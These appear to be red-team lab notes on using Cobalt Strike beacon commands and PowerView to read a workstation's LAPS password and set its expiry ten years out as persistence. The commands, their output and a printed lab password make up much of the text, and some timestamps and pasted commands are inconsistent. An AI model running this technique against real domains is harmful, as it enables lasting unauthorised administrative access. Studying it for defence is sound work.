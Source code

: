 One of the LAPS policy settings is called "Do not allow password expiration time longer than required by policy".  In short, this is the _PwdExpirationProtectionEnabled_ configuration that we read from the Registry.pol file.  When enabled, this policy prevents a user or computer setting the expiration date of a password beyond the password age specified in the _PasswordAgeDays_ setting.  We also read from Registry.pol that this is set to 30 days.  For instance - if a password is set on 1st January 2022, its expiration will be 31st January 2022.  If password expiration protection is enabled and we attempted to modify its expiration date beyond 31st January, it would trigger an automatic reset of that password.

If the policy setting is left "not configured" in the GPO, then password expiration protection is disabled by default.

Since we were able to compromise WKSTN-1 using its LAPS password, we can set its expiration long into the future as a form of persistence.  The expiration date is an 18-digit timestamp calculated as the number of 100-nanosecond intervals that have elapsed since 1st January 1601 (don't ask).

ON `wkstn-2` as `dev\bfarmer` first import powerview

```powershell
beacon> powerpick Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
[+] host called home, sent: 10 bytes
[*] Tasked beacon to run: Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime (unmanaged)
[+] host called home, sent: 138048 bytes
[+] received output:

ms-mcs-admpwdexpirationtime ms-mcs-admpwd 
--------------------------- ------------- 
         133500856678337494 Hqx77eg4lw34Ne

```
Where `133101494718702551` is Thursday, 13 October 2022 15:44:31 GMT.

If we wanted to push the expiry out by 10 years, we can overwrite this value with `136257686710000000`.  Every computer has delegated access to write to this password field, so we must elevate to SYSTEM on WKSTN-1.


on `dns` `SYSTEM` beacon
```powershell
beacon> run hostname
wkstn-1

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> powershell Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose
Setting 'ms-Mcs-AdmPwdExpirationTime' to '136257686710000000' for object 'WKSTN-1$'

beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
[*] Tasked beacon to import: C:\Tools\PowerSploit\Recon\PowerView.ps1
[+] host called home, sent: 143784 bytes
beacon> powerpick Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose Setting 'ms-Mcs-AdmPwdExpirationTime' to '136257686710000000' for object 'WKSTN-1$'
[*] Tasked beacon to run: Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose Setting 'ms-Mcs-AdmPwdExpirationTime' to '136257686710000000' for object 'WKSTN-1$' (unmanaged)
[+] host called home, sent: 138058 bytes
beacon> powershell Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose Setting 'ms-Mcs-AdmPwdExpirationTime' to '136257686710000000' for object 'WKSTN-1$'
[*] Tasked beacon to run: Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose Setting 'ms-Mcs-AdmPwdExpirationTime' to '136257686710000000' for object 'WKSTN-1$'
[+] host called home, sent: 773 bytes
[+] received output:
#< CLIXML

```
the laps ui didnt change for me but the date should be 2032

![[Pasted image 20240103201108.png]]